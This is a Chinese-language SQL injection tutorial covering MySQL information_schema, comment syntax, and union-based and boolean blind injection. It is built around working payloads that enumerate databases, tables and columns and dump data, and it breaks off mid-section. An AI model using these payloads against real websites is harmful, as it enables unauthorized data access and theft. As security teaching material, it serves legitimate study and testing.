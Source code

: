 ```
information_schema`：`SCHEMATA`、`TABLES`、`COLUMNS
```

- SCHEMATA：存储的库名
- TABLES：记录了用户创建的所有数据库的库名(TABLE_SCHEMA)和表名(TABLE_NAME)
- COLUMNS：存储了该用户创建的所有数据库的库名(TABLE_SCHEMA)、表名(TABLE_NAME)和字段名(COLUMN_NAME)

##### **注释符**

- `#`：注释从#字符到行尾
- `--`：注释从–序列到行尾，使用注释时，后面需要跟一个或多个空格
- `/**/`：注释`/**/`中间的字符，若`/**/`中间有感叹号，则有特殊意义，如`/*！55555,username*/`，若mysql版本号高于或等于5.55.55，语句将会被执行，如果！后面不加入版本号，mysql将会直接执行SQL语句

##### 类型

SQL注入可分为字符型和数字型,字符型注入要注意字符串闭合问题
 数字型猜测SQL语句为`select * from table where id=8`
 字符型猜测SQL语句为`select * from table where username='admin'`

##### Union注入

Mysql允许复合查询(多个SELECT语句并列查询)，并将返回单个结果集。这些组合查询通常称为并或复合查询。

```sql
/*注入存在判断*/
?id=1
?id=1'
?id=1' and 1=1 --+
?id=1' and 1=2 --+

/*判断字段数*/
?id=1' order by 3 --+

/*union查询库名和用户*/
?id=-1' union select 1,database(),user() --+
/*查询表名*/
?id=-1' union select 1,database(),(select group_concat(table_name) from information_schema.tables where table_schema='security' ) --+
/*查询字段*/
?id=-1' union select 1,database(),(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='emails' ) --+
/*查询数据*/
id=-1' union select 1,database(),(select group_concat(id,email_id) from emails  ) --+
```

##### Bool盲注

布尔盲注就是根据页面返回的true和flase猜测

```sql
length(str)：返回str字符串的长度
substr(str, pos, len)：将str从pos位置开始截取len长度的字符返回。注意这里的pos位置是从1开始的，不是数组的0开始
mid(str,pos,len):跟上面的一样，截取字符串ascii(str)：返回字符串str的最左面字符的ASCII代码值
ord(str):返回ascii码
if(a,b,c) :a为条件，a为true，返回b，否则返回c，如if(1>2,1,0),返回0

/*注入存在判断*/
id=1  显示数据
id=1' 不显示数据

/*测试数据库长度*/
id=1’ and length(database())=1 --+
/*判断数据库名，结合burp cluster bomb爆破*/
id=1' and substr(database(),1,1)='s' --+
/*爆表名*/
```